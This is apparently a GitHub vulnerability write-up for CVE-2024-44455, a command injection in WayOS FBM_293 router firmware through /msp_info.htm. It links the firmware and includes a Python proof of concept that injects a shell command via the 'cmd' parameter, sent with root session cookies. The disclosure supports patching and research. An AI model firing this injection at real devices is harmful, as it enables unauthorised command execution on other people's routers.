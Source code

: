 # wayos_FBM_293 CVE-2024-44455

## Firmware information
+ Manufacturer's address:[https://www.wayos.com/](https://www.wayos.com/)
+ Firmware download address:[https://drive.weixin.qq.com/s?k=ANgAJAcRAAcDrEqJTG#/preview?fileId=s.1970324955538648.649217589iNQ_f.6772254215xDg](https://drive.weixin.qq.com/s?k=ANgAJAcRAAcDrEqJTG#/preview?fileId=s.1970324955538648.649217589iNQ_f.6772254215xDg)

## Affected version
![](vx_images/591170315248517.png)

## Vulnerability details
![](vx_images/77830515269059.png)
In /msp_info.htm, There is command injection
## Poc
Request before sending
![](vx_images/175443718259273.png)
Request after sending:
![](vx_images/486984018267306.png)

```
import requests

burp0_url = "http://192.168.1.1:80/msp_info.htm?flag=cmd&cmd=`ps%20%3E%20/ProcInfo.txt`"
burp0_cookies = {"userid": "root", "gw_userid": "root,gw_passwd=3367B3DE1D5A18392A560817EC87A7C9"}
burp0_headers = {"Accept": "application/json, text/javascript, */*", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "en-US,en;q=0.9", "Connection": "close"}
requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
```
